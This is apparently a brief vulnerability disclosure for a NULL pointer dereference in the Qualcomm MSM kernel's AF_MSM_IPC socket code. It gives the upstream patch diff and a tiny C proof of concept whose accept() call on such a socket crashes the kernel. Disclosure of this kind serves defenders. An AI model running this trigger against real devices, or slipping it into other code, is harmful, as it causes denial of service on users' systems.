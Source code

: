## Description

NULL pointer dereference when processing accept system call by user process on AF_MSM_IPC sockets.  

The patch is as follows:

https://source.codeaurora.org/quic/la//kernel/msm-3.18/commit/?id=71fe5361cbef34e2d606b79e8936a910a3e95566
```
diff --git a/net/ipc_router/ipc_router_socket.c b/net/ipc_router/ipc_router_socket.c
index 828797b..652531a 100644
--- a/net/ipc_router/ipc_router_socket.c
+++ b/net/ipc_router/ipc_router_socket.c
@@ -555,10 +555,18 @@ static unsigned int msm_ipc_router_poll(struct file *file,
 static int msm_ipc_router_close(struct socket *sock)
 {
 	struct sock *sk = sock->sk;
-	struct msm_ipc_port *port_ptr = msm_ipc_sk_port(sk);
+	struct msm_ipc_port *port_ptr;
 	int ret;
 
+	if (!sk)
+		return -EINVAL;
+
 	lock_sock(sk);
+	port_ptr = msm_ipc_sk_port(sk);
+	if (!port_ptr) {
+		release_sock(sk);
+		return -EINVAL;
+	}
 	ret = msm_ipc_router_close_port(port_ptr);
 	msm_ipc_unload_default_node(msm_ipc_sk(sk)->default_node_vote_info);
 	release_sock(sk);
```

## Poc

```C
#include <sys/socket.h>

#define AF_MSM_IPC 27

void main()
{
	accept(socket(AF_MSM_IPC, SOCK_DGRAM, 0), 0, 0);
}
```